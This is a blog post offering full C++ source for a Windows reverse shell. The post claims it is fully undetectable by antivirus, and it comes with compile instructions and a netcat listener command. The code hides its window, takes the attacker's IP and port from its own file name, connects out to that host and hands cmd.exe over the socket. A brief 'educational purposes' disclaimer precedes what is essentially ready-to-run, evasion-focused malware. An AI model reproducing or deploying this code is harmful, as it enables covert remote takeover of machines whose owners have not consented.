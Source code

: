 ```yaml
---
title: "Fud Reverse Shell For Windows (C++)"
date: 20 December 2021
description: C++ Reverse Shell For Windows For Bypassing AV Solutions .
tags: bypass-av
words: 455
---
```


<Prompt title="Heads up!" status="warn">
All content of this blog is only for Educational Purposes ! 
Do Not Use tools or methods of this blog on any hardware or software without authorization of the owner !
</Prompt>

Today i share a c++ reverse shell source code for windows , as time of writing , its fully undetectable !
Its bypassing all antivirus solutions and works with
- Windows 11 
- Windows 10 
- Windows 8 
- Windows 7 
- Windows Server 2019 
- Windows Server 2016 

The source code is not obfuscated and if along the way get detected by av solutions , We can obfuscate it and its ready to go again !

One of the cool methods of this reverse shell is the ip and port for your listiner , Its hardcoded on name of the .exe file !

For Example your listiner ip and port is = 192.168.1.1:8080
You rename the exe file to this :
```
192x168x1x1_8080.exe
```

# How Compile It

#### First you copy the source code :
```c
#include <winsock2.h>
#include <stdio.h>
#include <string>
#include <tchar.h>
#include <Windows.h>

#pragma comment(lib,"ws2_32")
#pragma warning(disable:4996) 
WSADATA wsaData; SOCKET s1;
struct sockaddr_in R;
STARTUPINFO A;
PROCESS_INFORMATION B;
using std::string;
string getFileName(const string& s) {

	char sep = '/';
	
	#ifdef _WIN32
		sep = '\\';
	#endif
	size_t i = s.rfind(sep, s.length());
	if (i != string::npos) {
		return(s.substr(i + 1, s.length() - i));
	}

	return("");
}

int main(int argc, char *argv[])
{
	FreeConsole(); //Hide window
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	string path =getFileName(argv[0]);
	path.resize(path.size() - 4); //remove .exe from the file
	//replace x to "."
	for (int i = 0; i < path.size(); i++) {
		if (path[i] == 'x') {
			path[i] = '.';
		}
	}
	//PORT and IP from the executable
	size_t i = path.rfind("_", path.length());
	string port = path.substr(i+1, i-path.length());
	string ip = path.substr(0, i);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
	R.sin_family = AF_INET;
	R.sin_port = htons(std::stoul(port, nullptr, 0));
	R.sin_addr.s_addr = inet_addr(ip.c_str());
	WSAConnect(s1, (SOCKADDR*)&R, sizeof(R), 0, 0, 0, 0);
	memset(&A, 0, sizeof(A));
	A.cb = sizeof(A);
	A.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	A.hStdInput = A.hStdOutput = A.hStdError = (HANDLE)s1;
	TCHAR c[256] = L"cm";
	TCHAR d[256] = L"d.exe";
	CreateProcess(NULL, _tcscat(c, d), 0, 0, 1, 0, 0, 0, &A, &B);

}
```
#### Second Save it with whatever name you want with .cpp extension 
For Example I Save The Source Code With This Name :
```
mine.cpp
```
You can compile this in two ways :
- Visual Studio
- MSVC Compiler
For compiling in visual studio you just have to make a new project and add the .cpp file to the project and compile for x64 .

If you dont have visual studio , you can use Microsoft MSVC Compiler Tool
<Resource
  links={[
    {
      title: "MSVC Compiler Tool",
      link: "https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170",
    },
  ]}
/>

After Downloading MSVC Compiler Tool you just have to open new cmd or powershell prompt on the folder you saved .cpp file and run this command :
```
cl.exe mine.cpp
```
Thats It ! After compiling you have a exe file named mine.exe .
Rename the exe file with your listiner ip and port like this :
```
192x168x1x1_8080.exe
```
Now you just have listen a port and run the exe file on the windows system . 

# Listen a port on Windows

For listen a port on windows and get the reverse connection , i suggest netcan for windows 

<Resource
  links={[
    {
      title: "Netcan For Windows",
      link: "https://github.com/rahuldottech/netcat-for-windows/releases",
    },
  ]}
/>

After downloading netcat for windows listen a port with this command :
```
nc64.exe -lvnp 8080
```
Thats it . I hope you enjoyed today post , See you next time ;)
